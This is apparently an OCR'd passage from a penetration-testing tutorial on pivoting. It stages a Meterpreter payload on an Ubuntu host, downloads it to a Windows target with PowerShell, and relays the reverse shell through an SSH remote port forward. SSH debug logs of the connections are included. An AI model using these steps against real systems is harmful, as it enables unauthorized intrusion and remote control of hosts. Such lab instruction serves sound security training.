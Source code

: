 ### Transferring Payload to Pivot Host
```
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```
After copying the payload, we will start a python3 HTTP server using the below command on the Ubuntu server in the same directory where we copied our payload.

### Starting Python3 Webserver on Pivot Host
```
ubuntu@Webserver$ python3 -m http.server 8123
```

### Downloading Payload on the Windows Target
```
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```
We can download this backupscript.exe on the Windows host via a web browser or the PowerShell cmdlet Invoke-WebRequest.

Once we have our payload downloaded on the Windows host, we will use SSH remote port forwarding to forward connections from the Ubuntu server's port 8080 to our msfconsole's listener service on port 8000. We will use -vN argument in our SSH command to make it verbose and ask it not to prompt the login shell. The -R command asks the Ubuntu server to listen on <targetIPaddress>:8080 and forward all incoming connections on port 8080 to our msfconsole listener on 0.0.0.0:8000 of our attack host.


### Using SSH -R
```
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

After creating the SSH remote port forward, we can execute the payload from the Windows target. If the payload is executed as intended and attempts to connect back to our listener, we can see the logs from the pivot on the pivot host.

### Viewing the Logs from the Pivot
```
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000
```
 If all is set up properly, we will receive a Meterpreter shell pivoted via the Ubuntu server.

